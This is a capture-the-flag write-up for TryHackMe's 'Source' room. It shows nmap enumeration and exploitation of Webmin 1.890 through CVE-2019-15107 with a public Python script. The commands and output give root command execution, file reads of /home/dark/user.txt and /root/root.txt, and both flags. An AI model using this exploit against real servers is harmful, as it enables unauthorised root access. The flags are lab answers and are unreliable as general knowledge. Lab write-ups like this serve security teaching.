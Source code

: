 # Source
**Date:** March 13th 2022

**Author:** j.info

**Link:** [**Source**](https://tryhackme.com/room/source) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/source0.png)

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.106.247`

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

<br>

### Gobuster Scan

No gobuster scan is required for this CTF.

<br>

## Website Digging

Visiting the main page:

![](images/source1.png)

<br>

## CVE-2019-15107

I do a quick search for **webmin exploit** and it looks like there is an RCE effecting Webmin <=1.920 under **CVE-2019-15107**. Since this server is running Webmin version 1.890 we can try this CVE and see if it works for us. 

I find a python script for this CVE on github [**here**](https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py).

Looking at the script it exploits a command injection vulnerability in the **password_change.cgi** file. I test it out by running:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "which nc"`

```bash
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
/bin/nc
</p>
```

It's working, we have RCE on the box.

Let's see which user Webmin is running under:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "id"`

```
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```

Well, it looks like we're running as root! We can likely get a reverse shell back at this point since nc was there, but I don't even think we need to do that since we should just be able to cat the 2 flags using this script.

I run the script with **ls /home** and see that we have 1 user on the system named **dark**. Listing files in **/home/dark** shows us that the **user.txt** flag is there.

I run the script with **cat /home/dark/user.txt** and get back the user flag.

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

I then run the script with **cat /root/root.txt** and get back the root flag.

```
THM{UPDATE_YOUR_INSTALL}
```

<br>

And with that we've completed this CTF! This was definitely a short one.

![](images/source2.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **CVE-2019-15107** against a vulnerable **Webmin** server

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)